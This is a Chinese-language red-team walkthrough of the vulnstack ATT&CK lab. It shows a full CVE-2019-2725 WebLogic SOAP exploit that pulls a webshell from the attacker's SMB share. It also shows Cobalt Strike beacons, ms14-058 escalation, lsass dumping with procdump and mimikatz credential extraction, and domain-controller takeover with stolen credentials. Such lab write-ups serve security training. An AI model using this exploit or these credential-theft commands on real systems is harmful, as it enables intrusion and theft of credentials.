 ```yaml
---
title: ATT&CK实战系列——红队实战(二)
author: Spade-Z
top: false
cover: false
toc: true
mathjax: false
summary: >-
  vlunstack是红日安全团队出品的一个实战环境，具体介绍请访问：http://vulnstack.qiyuanxuetang.net/vuln/detail/3/
tags:
  - 安全
  - 内网域渗透
  - 靶场
categories:
  - 渗透测试
abbrlink: 63e9fa60
date: 2021-03-31 14:01:58
img:
coverImg:
password:
---
```


# 一、环境搭建

## 1.1 靶场下载
---
靶场下载地址[传送门](http://vulnstack.qiyuanxuetang.net/vuln/detail/3/)
> 靶机通用密码：  1qaz@WSX

## 1.2 环境配置
---
拓扑图
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)1.png)
下载好靶机打开vmx文件z之后恢复到快照v1.3，由于DMZ网段为192.168.111.0/24，所以需要将子网ip设置为192.168.111.0
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)2.png)

## 1.3 配置信息
---
DC
IP：10.10.10.10OS：Windows 2012(64)
应用：AD域

WEB
IP1：10.10.10.80
IP2：192.168.111.80
OS：Windows 2008(64)
应用：Weblogic 10.3.6MSSQL 2008

PC
IP1：10.10.10.201
IP2：192.168.111.201
OS：Windows 7(32)
应用：

攻击机
IP： 192.168.111.1
OS： Windows 10(64)
IP： 192.168.111.128 
OS： Kali

>内网网段：10.10.10.1/24
>DMZ网段：192.168.111.1/24

## 1.4 域环境初始化
---
登录 WEB 主机启动服务。默认密码是 1qaz@WSX 需登录时修改。
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)3.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)4.png)
输入新密码123.com
切换至 WEB 服务目录下启动 WEB 服务。
C:\Oracle\Middleware\user_projects\domains\base_domain
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)5.png)
双击运行
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)6.png)

# 二、weblogic 漏洞利用并 getshell

## 2.1	信息收集
---
全端口扫描
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)7.png)
常用端口是开放状态 1433 是 mssql， 7001 知道是 weblogic 服务，因为前面手工开启的。
使用WeblogicScan 工具扫一下
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)8.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)9.png)

## 2.2	利用 CVE-2019-2725 获得 shell
---
Kali 搭建 smbserver 通过命令执行直接 copy 冰蝎马到服务器上。
启动 smbserver 名称为 share 目录为/root/
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)10.png)
打开 BurpSuite
将 POC 复制到 Repeater 中进行发包。
<pre style="background-color:#F0F8FF;">
POST /_async/AsyncResponseService HTTP/1.1
Host: 192.168.111.80:7001
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
DNT: 1
Connection: close
Content-Type: text/xml
Content-Length: 839
&lt;soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService"&gt;
&lt;soapenv:Header&gt;
&lt;wsa:Action&gt;xx&lt;/wsa:Action&gt;
&lt;wsa:RelatesTo&gt;xx&lt;/wsa:RelatesTo&gt;
&lt;work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"&gt;
&lt;void class="java.lang.ProcessBuilder"&gt;
&lt;array class="java.lang.String" length="3"&gt;
&lt;void index="0"&gt;
&lt;string&gt;cmd&lt;/string&gt;
&lt;/void&gt;
&lt;void index="1"&gt;
&lt;string&gt;/c&lt;/string&gt;
&lt;/void&gt;
&lt;void index="2"&gt;
&lt;string&gt;copy \\192.168.111.128\share\shell.jsp servers\AdminServer\tmp\_WL_internal\bea_wls9_async_response\8tpkys\war\1.jsp &lt;/string&gt;
&lt;/void&gt;
&lt;/array&gt;
&lt;void method="start"/&gt;&lt;/void&gt;
&lt;/work:WorkContext&gt;
&lt;/soapenv:Header&gt;
&lt;soapenv:Body&gt;
&lt;asy:onAsyncDelivery/&gt;
&lt;/soapenv:Body&gt;&lt;/soapenv:Envelope&gt;
</pre>
设置目标主机端口
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)11.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)12.png)
使用冰蝎进行连接，地址：http://192.168.111.80:7001/_async/1.jsp
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)13.png)
查看用户信息
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)14.png)
查看系统信息，看一下系统安装了哪些补丁
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)15.png)

# 三、域渗透靶场获取DC权限

## 3.1	Cobalt Strike 部署
---
上传到kali中并解压
添加执行权限
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)16.png)
启动服务端(命令+ip+密码)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)17.png)
启动客户端
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)18.png)
用户名随意填写， CS 支持多人协同工作，密码是 123456。

## 3.2	创建监听
---
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)19.png)
添加
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)20.png)
生成exe程序
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)21.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)22.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)23.png)

## 3.3  上传相关利用工具
---
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)24.png)

## 3.4	反弹管理员shell 给 cs 服务
---
先切换到我们上传文件的目录，运行 web.exe 返回一个 de1ay 用户的 shell。
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)25.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)26.png)
提权
右键->Access->Elevate->ms14-058 提到 system 权限
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)27.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)28.png)

## 3.5	明文读取密码
---
使用 管理员 权限 download 进程内
`beacon> shell procdump64.exe -accepteula -ma lsass.exe lsass.dmp`
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)29.png)
需要将 lsass.dmp 文件拖回本地放至相同的系统中进行解密。
`beacon> shell mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit >pass.txt`
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)30.png)
直接使用 download 命令下载，下载后会保存到程序目录的 downloads 目录。
`beacon> download pass.txt`
名字是随机字符串
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)32.png)

## 3.6	域信息收集
---
目前得到账户信息
mssql@de1ay 1qaz@WSX
de1ay@de1ay 1qaz@WSX
de1ay@WEB 该用户是登录系统用的，密码是登录时自行修改的。
查看网络信息找到域控
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)33.png)
DNS 服务器 10.10.10.10 也就是域控。
找到 DC 的主机名
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)34.png)
主机名： DC.de1ay.com

## 3.7	通过凭证连接域控反弹域控 shell
---
创建新的监听。
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)35.png)
选择 smb 这个特殊的 beacon，名称就叫 smb 这个后面要用。
恢复初始凭证
`beacon> rev2self` 
通过前面获取到的账户信息生成新的凭证。
`beacon> make_token DE1AY\de1ay 1qaz@WSX`
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)36.png)
DC上线
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)37.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/ATT&CK实战系列——红队实战(二)38.png)

>工具包[提取码：aj70](https://pan.baidu.com/s/1VdQW_AalGaZqT2LepNEnLw)
